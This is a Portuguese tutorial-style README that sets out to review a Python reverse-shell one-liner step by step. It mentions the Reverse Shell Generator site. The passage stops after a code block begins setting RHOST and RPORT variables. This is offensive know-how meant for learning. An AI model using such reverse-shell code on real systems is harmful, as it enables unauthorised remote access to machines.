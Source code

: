 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o Reverse Shell Generator. É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo até os bits e opcodes e ver oque podemos aprender com isso?

   
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!


~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
